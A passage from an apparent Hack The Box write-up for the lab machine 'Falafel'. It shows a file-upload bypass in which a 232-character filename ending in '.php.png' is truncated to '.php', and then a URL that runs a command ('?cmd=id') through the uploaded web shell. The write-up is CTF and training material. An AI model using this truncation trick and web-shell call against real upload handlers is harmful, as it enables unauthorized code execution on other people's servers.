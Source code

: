 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:43:28.png)

And try to upload it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:43:58.png)

We see it try to upload but how the name is too large, gets an error

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:44:57.png)

And it make a new name for the file. We get the last 4 digits of the new name and get the pattern offset

```sh
msf-pattern_offset -q h7Ah
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:45:56.png)

232, so the file must be 232 max lenght

We create a 232 long chars

```sh
msf-pattern_create -l 232
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:47:28.png)

And put .php.png on the end of it

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:48:49.png)

And now try to upload it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:49:32.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:49:38.png)

Still to large, but if we look at the name of the file that was saved

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php
```

Great! Possibly uploaded a PHP file

And we get RCE

```
http://10.10.10.73/uploads/1030-2052_e402b983e2e9e311/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php?cmd=id
```
